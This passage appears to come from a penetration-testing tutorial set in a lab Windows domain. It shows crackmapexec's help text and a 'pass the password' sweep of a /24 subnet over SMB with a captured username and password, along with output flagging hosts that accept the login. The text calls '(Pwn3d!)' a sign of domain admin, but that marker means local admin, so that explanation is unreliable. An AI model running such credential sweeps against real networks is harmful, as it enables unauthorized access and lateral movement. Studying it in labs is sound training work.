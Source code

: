 
We are going to use the `crackmapexec` tool to perform the attack using the SMB protocol. However, this can be done via other protocols as well.

```bash
$ crackmapexec --help                                                                                                                          
usage: crackmapexec [-h] [-t THREADS] [--timeout TIMEOUT] [--jitter INTERVAL] [--darrell] [--verbose] {ssh,smb,winrm,ldap,ftp,mssql,rdp} ...

options:
  -h, --help            show this help message and exit
  -t THREADS            set how many concurrent threads to use (default: 100)
  --timeout TIMEOUT     max timeout in seconds of each thread (default: None)
  --jitter INTERVAL     sets a random delay between each connection (default: None)
  --darrell             give Darrell a hand
  --verbose             enable verbose output

protocols:
  available protocols

  {ssh,smb,winrm,ldap,ftp,mssql,rdp}
    ssh                 own stuff using SSH
    smb                 own stuff using SMB
    winrm               own stuff using WINRM
    ldap                own stuff using LDAP
    ftp                 own stuff using FTP
    mssql               own stuff using MSSQL
    rdp                 own stuff using RDP
```

### Pass the Password

Once we have compromised the credentials of one user, we can use them to sweep the network using it.

```bash
$ crackmapexec smb 192.168.23.0/24 -u fcastle -d MARVEL.local -p Password1                                                                
SMB         192.168.23.132  445    SPIDERMAN        [*] Windows 10 / Server 2019 Build 19041 x64 (name:SPIDERMAN) (domain:MARVEL.local) (signing:False) (SMBv1:False)
SMB         192.168.23.130  445    HYDRA-DC         [*] Windows Server 2022 Build 20348 x64 (name:HYDRA-DC) (domain:MARVEL.local) (signing:True) (SMBv1:False)
SMB         192.168.23.131  445    THEPUNISHER      [*] Windows 10 / Server 2019 Build 19041 x64 (name:THEPUNISHER) (domain:MARVEL.local) (signing:False) (SMBv1:False)
SMB         192.168.23.132  445    SPIDERMAN        [+] MARVEL.local\fcastle:Password1 (Pwn3d!)
SMB         192.168.23.130  445    HYDRA-DC         [+] MARVEL.local\fcastle:Password1 
SMB         192.168.23.131  445    THEPUNISHER      [+] MARVEL.local\fcastle:Password1 (Pwn3d!)
```

From the `[+]` symbol, we can determine which accounts we were able to login to using the password. The `(Pwn3d!)` indicates which machines we were able to get domain admin in. 